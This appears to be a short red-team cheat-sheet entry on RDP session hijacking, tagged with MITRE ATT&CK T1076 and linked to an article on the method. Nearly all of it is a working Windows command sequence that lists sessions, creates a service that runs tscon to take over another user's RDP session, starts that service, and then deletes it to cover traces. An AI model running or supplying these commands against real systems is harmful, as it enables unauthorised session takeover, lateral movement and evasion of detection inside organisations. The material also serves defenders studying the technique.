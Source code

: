 ## Remote Desktop Protocol

MITRE ATT&CK Technique: [T1076](https://attack.mitre.org/wiki/Technique/T1076)


### [RDP hijacking](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6) — how to hijack RDS and RemoteApp sessions transparently to move through an organization

retrieve the session ID:

    query user

Set the session ID and rdp-tcp# retrieved from `query user`

    sc.exe create sesshijack binpath= "cmd.exe /k tscon 1337 /dest:rdp-tcp#55"

Access the session:

    net start sesshijack

Clean up afterward:

    sc.exe delete sesshijack